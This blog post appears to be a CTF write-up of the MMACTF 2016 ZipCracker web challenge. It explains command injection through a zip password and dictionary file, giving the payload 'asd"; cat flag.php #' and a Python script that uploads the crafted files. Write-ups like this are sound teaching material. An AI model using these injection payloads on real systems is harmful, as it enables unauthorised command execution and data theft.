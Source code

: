 ```yaml
---
author: AnirudhAnand
layout: post
title: Command Injection via Bruteforce ZipCracker - MMACTF 2016 Web 200 writeup
categories:
- ctf
summary: Command injection via the dictionary file used for bruteforce. (MMACTF 2016 web 100 writeup)
description: Command injection via the dictionary file used for bruteforce. (MMACTF 2016 web 100 writeup)
---
```


## Introduction

Zip cracker was truly an interesting challenge. The moment I saw the application, I was sure that the vulnearbility will either be Symlink attacks (if the zip is returning the extracted content) or Command Injection (If the zip is taking userinput inside commnds). Since the application just tells us that the password is correct or wrong and never shows the extracted files back to the user, Symlink attacks might not work. So next best case is command injection !

## Challenge

So we could create a zip with a password and we can upload it to the ZipCracker along with a dict.txt (where the possible passwords are listed line by line). We have the option to chooze `unzip` or not, but both times it returns seperate outputs.

Challenge URL: [http://zipcracker.chal.ctf.westerns.tokyo](http://zipcracker.chal.ctf.westerns.tokyo/)

So here is what I guessed from the challenge:

1) When trying to bruteforce without the `unzip` option, it returns (if correct password is found) `Possible password: paSSw0rd ()`.

2) When trying to bruteforce with the `unzip` option, it returns (if correct password is found) `Password Found ! pw == p@ssw0rd`.

Now if we compare the 2 cases, we can see that in the 2nd case, actual extraction of the zip happens while it's not the case with first. So the chances of command injections are high in the 2nd case.

Next question is how do we inject ? The possible place is on zip password. What if we encrypts zip with passwords containing special characters like `;`, `&` which are also valid command seperators ?

Eventhough my approach here was right, it took me a long time to figure out something so silly ! The mistakes I did was:

1) The filename was included inside double quotes in the server but I was trying without quotes so essentially what ever I try, server takes it as a string as I am in the string context.

2) Once our injection is done, we should comment out the rest of the commands that gets added by the server or else our injection might not work properly. I actually forgot to give a `#` at the end of the injection string :O (How could I ?)

## Solution:

After finding my mistakes I clearly understood what all I was missing and the final payload becomes `asd"; ls #` and this will output the files in which there was an interesting file called `flag.` So the final payload becomes `asd"; cat flag.php #`

The problem can automatically be cracked using the python script below (my team has writen a script so that we don't have to manually upload each time we channge password):

{%highlight python lineos %}

import requests
import json
import subprocess
import os


try:
    os.remove('zipped.zip')
except OSError:
    pass


password = """asd"; cat flag.php #""" # password of zip file
zipfilename = 'zipfile.zip' #the zip name that gets posted
dictfilename = 'dictionary.txt' #the dict name that gets posted
dictfilecontents = """password1\npassword12\npassword123\nasd"; cat flag.php #\n1\n""" #dictionary file contents
unzip = True

#zips the random.txt file with password into zipped.zip
subprocess.call(['zip', '--password', password, 'zipped.zip', 'random.txt'])



dictfile = open('dict.txt', 'w')
dictfile.write(dictfilecontents)
dictfile.close()

url = "http://zipcracker.chal.ctf.westerns.tokyo/"
multiple_files = [
        ('zip', (zipfilename, open('zipped.zip', 'rb'), 'application/x-zip-compressed')),
        ('dict', (dictfilename, open('dict.txt', 'rb'), 'text/plain'))
]

data = {}
if unzip:
    data['unzip'] = 'on'
r = requests.post(url, files=multiple_files, data=data)
print r.text

{%endhighlight%}

Just run the script `python zipcracker.py` and it will output the results on the screen !
